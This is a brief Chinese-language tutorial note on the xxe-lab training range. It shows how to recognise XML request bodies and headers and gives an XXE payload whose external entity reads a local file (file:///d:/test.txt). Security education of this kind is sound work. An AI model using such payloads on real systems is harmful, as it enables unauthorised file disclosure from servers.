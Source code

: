 


### xxe-lab 靶场登陆框 xml 数据传输测试-检测发现

靶场下载地址：https://github.com/c0ny1/xxe-lab

1.提交的数据包含 XML 格式如：

```XML
<forgot><username>admin</username></forgot>
```

2.请求头中如：

- Content-Type：text/xml  
- Content-type:application/xml

```txt

<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///d:/test.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```

![](image39/QQ截图20220330193313.png)
